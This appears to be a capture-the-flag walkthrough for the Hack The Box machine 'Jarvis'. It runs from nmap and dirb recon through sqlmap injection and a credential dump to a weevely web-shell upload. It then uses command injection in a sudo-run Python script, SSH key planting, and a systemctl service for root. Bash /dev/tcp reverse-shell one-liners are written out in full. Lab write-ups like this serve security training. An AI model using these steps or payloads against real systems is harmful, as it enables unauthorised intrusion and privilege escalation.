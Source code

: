 Jarvis:
When running scans and injections on the website you will be
banned each time you run. 
Helpful links:
https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e
https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
https://medium.com/bugbountywriteup/sqlmaps-os-shell-backdooring-website-with-weevely-8cb6dcf17fa4
Tools: OWASP-ZAP,dirb,sqlmap,nmap,systemctl,weevely,lots of research
Other: Infoblox NetMRI 7.1.4 Shell Escape / Privilege Escalation
\~exploit/multi/http/phpmyadmin\_lfi\_rce \> reverse shell if you have
creds. Creds can be found after running sqlmap, but getting a reverse
shell and escaping to other users is a little easier when not in
metasploit.

Host Jarvis: 10.10.10.143 nmap -sC -sV -A 10.10.10.143

    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Stark Hotel

Run 'dirb http://10.10.10.143' http://10.10.10.143/phpmyadmin/\* looks
interesting \> http://10.10.10.143/phpmyadmin/libraries/ -- SQLMap:
sqlmap -u 'url' --dbs sqlmap -u 'url' --tables -D mysql sqlmap -u 'url'
--colums -D mysql -T 'name' sqlmap -u 'url' --dump -D mysql -T 'name'
(will dump what is inside to screen) http://10.10.10.143/room.php?cod=1
http://10.10.10.143/room.php?cod=2 http://10.10.10.143/room.php?cod=3
http://10.10.10.143/room.php?cod=4 http://10.10.10.143/room.php?cod=5
http://10.10.10.143/room.php?cod=6 http://10.10.10.143/room.php?cod=7
http://10.10.10.143/room.php?cod=8-2 \> Might be a good one DataBases:
hotel information\_schema mysql performance\_schema test wskce

Mysql databases usually hold users and passwords, use sqlmap to gather
information that might be useful. 'sqlmap -hh' will give all the
information needed in the event of going down the rabbit hole.

    sqlmap -u http://10.10.10.143/room.php?cod=8-2 --columns -D mysql -T user
    sqlmap -u http://10.10.10.143/room.php?cod=8-2 --dump -D mysql -T user -C Password

Password: imissyou User: DBadmin \> password can be decrypted through
sqlmap or you can take the hash and run it through hashcat

Go to the phpmyadmin page and login. After logging in, user could create
a reverse shell by making a new entry into the db but sqlmap is a little
faster. \\ 'sqlmap -u http://10.10.10.143/room.php?cod=8-2 -D mysql
--os-shell' this will give an interactive shell to the user if the
database is exploitable.

Use weevely to generate a reverse shell payload that can be uploaded to
the website to gain access as www-data. Using the --os-shell will only
go so far, it still is not a full tty shell.

weevely generate r0m /root/Desktop/sys.php - generates the payload \>
then use that file in the upload weevely http://10.10.10.143/sys.php r0m
- After the file has been uploaded, use this to access the payload to
gain access // To make things easier, create a reverse shell in /tmp
that will allow you to not use the weevely shell that was created. Do
note that making changes to files can only be done in the weevely shell
but will help you move around as well as try many ways to escape the
shell jail. Some of the commands to view what things you can and cannot
do need to be done outside of the payload shell. (use a reverse shell
and nc to get another shell to work in)

Inside a nc reverse shell, user can notice that there is a program that
can be run by running 'sudo -l' with sudo permissions

    sudo -u pepper /var/www/Admin-Utilities/simpler.py -p (prompt for ip on next line) 
    $(bash shell.sh) - this file should be made in the same place that the script is run, unless the path to the file is listed in the command. 

Inside the shell.sh file

    shell.sh

!/bin/bash
==========

bash -i \>& /dev/tcp/10.10.15.60/8889 0\>&1

On kali listen to port you set for shell.sh to get reverse into pepper,
since pepper is the user that can run the script/program.

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p \$(cat
/home/pepper/user.txt) \> to get the flag from pepper if there are
difficulties getting a shell as pepper. \\ After you have a shell as
pepper, notice that the shell still is not a full shell. SSH is your
friend and creating a bypass for pepper's password can be done by
creating ssh keys that will be used to get in \>ssh-keygen move private
key to kali rename id\_rsa.pub to 'authorized\_keys' ssh using id\_rsa
to pepper@10.10.10.143 should be able to ssh as pepper

Section 2: Now that ssh as pepper has been achieved, use nc to move over
pspy64(process watcher) and or linenum(to check permissons on important
things) to get the lay of the land as to what to do next. Also, can just
make the files or use 'ps' and find/grep commands to check permissions,
but adding scripts will move the process along faster.

https://gtfobins.github.io/gtfobins/systemctl/ \> this link will help
with gaining root systemctl: ( will note that pepper can start/make
services but the owner of the priv. is root. Will most likely give a
root shell if exploitable) systemctl enable /tmp/name.service (to enable
the service) systemctl start name.service (to start the service)

name.service: [Unit] Description=root shell After=network.target
StartLimitIntervalSec=0

[Service] Type=simple Restart=always RestartSec=1 User=root
ExecStart=/usr/bin/env bash /tmp/top.sh

[Install] WantedBy=multi-user.target

\\ inside top.sh \#!/bin/bash bash -i \>& /dev/tcp/10.10.15.60/8889
0\>&1

With nc listening to the port from the shell made, when the system is
started by root. Root access has been achieved.
